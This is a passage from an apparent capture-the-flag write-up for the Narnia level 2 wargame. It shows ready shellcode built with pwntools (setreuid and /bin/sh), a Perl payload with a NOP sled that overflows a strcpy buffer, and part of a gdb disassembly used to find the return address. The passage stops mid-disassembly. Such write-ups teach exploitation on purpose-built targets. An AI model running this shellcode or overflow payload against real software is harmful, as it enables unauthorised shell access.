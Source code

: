[NOP_sled.md](../extras/nop_sled.md)

Let's craft a shellcode using Python's `pwntools`

``` text
narnia2@gibson:/narnia$ python3
Python 3.10.12 (main, Jun 11 2023, 05:26:28) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> context.arch = 'i386'
>>> context.os = 'linux'
>>> context.endian = 'little'
>>> context.word_size = 32
>>> shellcode = asm(shellcraft.setreuid() + shellcraft.sh())
>>> enhex(shellcode)
'6a3158cd8089c36a465889d9cd806a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80'
>>> 
```

Now, we have our shellcode, which is `58 bytes` long. `128 - 58 = 70`.

We can convert this to the following:

``` text
perl -e 'print "\x90"x74 . "\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" . "\x00\x00\x00\x00";'
```

``` text
narnia2@gibson:/narnia$ ./narnia2 $( perl -e 'print "\x90"x74 . "\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" . "\xff\xff\xff\xff";' )
Segmentation fault (core dumped)
narnia2@gibson:/narnia$ 
```

Let's run `gdb` to figure out what to write for our return address.

``` text
narnia2@gibson:/narnia$ gdb ./narnia2
<snip>
(gdb) disassemble main
Dump of assembler code for function main:
   0x08049196 <+0>:	push   %ebp
   0x08049197 <+1>:	mov    %esp,%ebp
   0x08049199 <+3>:	add    $0xffffff80,%esp
   0x0804919c <+6>:	cmpl   $0x1,0x8(%ebp)
   0x080491a0 <+10>:	jne    0x80491bc <main+38>
   0x080491a2 <+12>:	mov    0xc(%ebp),%eax
   0x080491a5 <+15>:	mov    (%eax),%eax
   0x080491a7 <+17>:	push   %eax
   0x080491a8 <+18>:	push   $0x804a008
   0x080491ad <+23>:	call   0x8049050 <printf@plt>
   0x080491b2 <+28>:	add    $0x8,%esp
   0x080491b5 <+31>:	push   $0x1
   0x080491b7 <+33>:	call   0x8049070 <exit@plt>
   0x080491bc <+38>:	mov    0xc(%ebp),%eax
   0x080491bf <+41>:	add    $0x4,%eax
   0x080491c2 <+44>:	mov    (%eax),%eax
   0x080491c4 <+46>:	push   %eax
   0x080491c5 <+47>:	lea    -0x80(%ebp),%eax
   0x080491c8 <+50>:	push   %eax
   0x080491c9 <+51>:	call   0x8049060 <strcpy@plt>
   0x080491ce <+56>:	add    $0x8,%esp
   0x080491d1 <+59>:	lea    -0x80(%ebp),%eax
   0x080491d4 <+62>:	push   %eax
```
